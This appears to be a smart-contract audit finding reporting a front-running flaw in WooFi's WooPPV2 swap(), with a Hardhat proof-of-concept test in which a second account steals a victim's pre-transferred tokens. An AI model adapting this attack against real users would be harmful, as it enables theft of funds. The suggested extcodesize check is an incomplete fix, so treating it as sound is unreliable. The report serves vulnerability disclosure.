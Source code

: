 Brilliant Coal Badger

high

# High1-SwapsDirectlyOnWooPPCanBeFrontRun

### by [CarlosAlegreUr](https://github.com/CarlosAlegreUr)

## Summary

EOAs swapping on WooPPV2 can be front-run so they lose their swapped funds and receive nothing.

> 📘 **Note** ℹ️: Also SmartContract addresses can suffer from this if they `transfer()` tokens and later
> `swap()` in 2 different transactions.

---

## Vulnerability Detail

The protocol allows for anyone to directly call to `WooPPV2`'s `swap()` but an EOA who uses it could get front-run and all his swapping funds could be stolen.

The user would `transfer()` the `from-token` he wants to get rid of to the pool and then call the `swap()` function to receive its `to-token` corresponding amount. But another user sees this and front-runs his swap with an identical one and, as the funds are already in the pool, the pool will detect it as a valid `swap()` and send the `to-tokens` to the front-runner's address.

This are the specific checks that will return true as the contract has received the funds:

- [At _sellBase()](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/main/WooPoolV2/contracts/WooPPV2.sol#L431)

```solidity
  require(balance(baseToken) - tokenInfos[baseToken].reserve >= baseAmount, "WooPPV2: !BASE");
```

- [At _sellQuote()](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/main/WooPoolV2/contracts/WooPPV2.sol#L478)

- [At _swapBaseToBase()](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/main/WooPoolV2/contracts/WooPPV2.sol#L525)

And the execution will continue with the front-runner being able to chose the receiver of the swap with the only cost of gas fees.

## Impact

The impact is that valid users will lose their funds and receive nothing in return.

---

## Code Snippet

To run it, paste this test in the `./test/typescript/WooPPv2.test.ts` file, inside the `describe("wooPP swap", () => {})` test cases section, after the `beforeEach("Deploy WooPPV2", async () => {})` and run:

```bash
npx hardhat test test/typescript/WooPPv2.test.ts
```

<details> <summary> See code 👁️ </summary>

```typescript
    it.only("Front-run exploit", async () => {
      await btcToken.mint(user1.address, ONE.mul(3));
      const baseAmount = ONE.mul(1);
      const minQuoteAmount = ONE.mul(BTC_PRICE).mul(99).div(100);

      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      let userUsdt = await usdtToken.balanceOf(user1.address);
      let userBtc = await btcToken.balanceOf(user1.address);
      let userUsdt2 = await usdtToken.balanceOf(user2.address);
      let userBtc2 = await btcToken.balanceOf(user2.address);
      let wppUsdtSize = await wooPP.poolSize(usdtToken.address);
      let unclaimedFee = await wooPP.unclaimedFee();
      console.log("BEFORE SWAP");
      console.log("user1 usdt: ", utils.formatEther(userUsdt));
      console.log("user1 btc: ", utils.formatEther(userBtc));
      console.log("user2 usdt: ", utils.formatEther(userUsdt2));
      console.log("user2 btc: ", utils.formatEther(userBtc2));
      console.log("balanceOf WooPP usdt: ", (await usdtToken.balanceOf(wooPP.address)).div(ONE).toString());
      console.log("balanceOf WooPP btc: ", (await btcToken.balanceOf(wooPP.address)).div(ONE).toString());

      // User1 sends fromToken (btc now) to pool
      await btcToken.connect(user1).approve(wooPP.address, baseAmount);
      await btcToken.connect(user1).transfer(wooPP.address, baseAmount);

      console.log("User1 has sent btc to WooPP");
      console.log("user1 btc: ", utils.formatEther(await btcToken.balanceOf(user1.address)));
      console.log("balanceOf WooPP btc: ", (await btcToken.balanceOf(wooPP.address)).div(ONE).toString());

      console.log("User1 sends a swap to receive its usdt");
      console.log("User2 sees it and front-runs with the same swap but the `to` address is its own");

      // User2 sees the transaction and frontruns user1 with a swap tx before the swap of user1
      await wooPP
        .connect(user2)
        .swap(btcToken.address, quote.address, baseAmount, minQuoteAmount, user2.address, ZERO_ADDR);

      // User1 tries to swap but he has been front-run by user2 and reverts
      await expect(
        wooPP.connect(user1).swap(btcToken.address, quote.address, baseAmount, minQuoteAmount, user1.address, ZERO_ADDR)
      ).to.be.revertedWith("WooPPV2: !BASE");

      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      userUsdt = await usdtToken.balanceOf(user1.address);
      userBtc = await btcToken.balanceOf(user1.address);
      userUsdt2 = await usdtToken.balanceOf(user2.address);
      userBtc2 = await btcToken.balanceOf(user2.address);
      console.log("AFTER SWAP");
      console.log("user1 usdt: ", utils.formatEther(userUsdt));
      console.log("user1 btc: ", utils.formatEther(userBtc));
      console.log("user2 usdt: ", utils.formatEther(userUsdt2));
      console.log("user2 btc: ", utils.formatEther(userBtc2));
      console.log("balance WooPP usdt: ", (await usdtToken.balanceOf(wooPP.address)).div(ONE).toString());
      console.log("balance WooPP btc: ", (await btcToken.balanceOf(wooPP.address)).div(ONE).toString());
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
      console.log("++++++++++++++++++++++++++++++++++++++++++++++++++++++++");
    });
```

 </details>

---

## Tool used

- Manual review.
  
---

## Recommendation

Restrict EOAs from interacting with the `WooPPV2`'s `swap()` function. Only allow contracts to do so by checking the codesize of `msg.sender`.

```solidity
function isEOA() public view returns (bool) {
   uint256 size;
   assembly {
       size := extcodesize(msg.sender)
   }
   return size == 0;
}
```

---
